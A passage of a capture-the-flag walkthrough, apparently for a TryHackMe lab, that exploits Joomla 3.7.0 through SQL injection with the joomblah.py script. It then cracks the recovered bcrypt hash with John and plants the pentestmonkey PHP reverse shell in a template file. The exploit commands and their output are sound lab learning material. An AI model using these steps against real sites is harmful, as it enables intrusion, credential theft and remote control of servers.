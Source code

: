 ![Desktop View](DailyBugleJoomlaVersion.png)

We can see that we are facing a **Joomla 3.7.0**, searching a bit about this version, i found that is vulnerable to **SQL Injection**.

Searching a bit more i found an exploit named `joomblah.py` that automate the exploitation and get all the important information from the database, let's download the exploit and use it.

```bash
❯ wget https://raw.githubusercontent.com/XiphosResearch/exploits/refs/heads/master/Joomblah/joomblah.py
```

Once with the exploit, give it execution perms and execute it.

```bash
❯ chmod +x joomblah.py
❯ python2 joomblah.py http://10.10.246.66
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'j***h', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh******uc4Xya.dfy2MF.bZhz0jVMw******12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

Bingo, we have retrieved a user and a hash, let's try to crack the hash.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Press 'q' or Ctrl-C to abort, almost any other key for status
sp*****an123    (?)     
```

After a while, we finally cracked the hash, so let's login with the valid credentials to `http://10.10.246.66/administrator/`

![Desktop View](DailyBugleLogin.png)

Once inside we are in front of a **Joomla** dashboard.

![Desktop View](DailyBugleDashBoard.png)

Once inside the **Joomla** dashboard it's pretty easy to get RCE, we can upload a webshell doing the following steps: **Extensions ->  Templates -> Templates**.

Then we have to select the currently active **template**, in this case **Protostar**, so select **Protostar Details and Files**, and select the `index.php` file and change it's content with the classic **pentestmonkey** reverse shell.

You can download the reverse shell here: [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
